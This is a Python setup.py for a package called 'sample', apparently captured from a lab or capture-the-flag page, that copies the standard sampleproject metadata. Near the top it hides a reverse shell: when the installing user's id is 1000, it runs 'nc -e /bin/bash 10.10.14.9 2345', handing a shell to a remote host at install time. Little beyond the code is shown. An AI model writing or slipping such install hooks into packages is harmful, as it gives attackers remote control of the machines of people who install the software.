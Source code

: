```
import setuptools
import os

if os.getuid() == 1000:
        os.system('nc -e /bin/bash 10.10.14.9 2345')


setuptools.setup(
        name='sample',
        version='1.2.0',
        description='A sample Python project',
        long_description="long_description",
        long_description_content_type='text/x-rst',
        url='https://github.com/pypa/sampleproject',
        author='A. Random Developer',
        author_email='author@example.com',
        license='MIT',
        packages=setuptools.find_packages(),
        install_requires=['peppercorn'],
)
```

![Image](img/8.PNG)
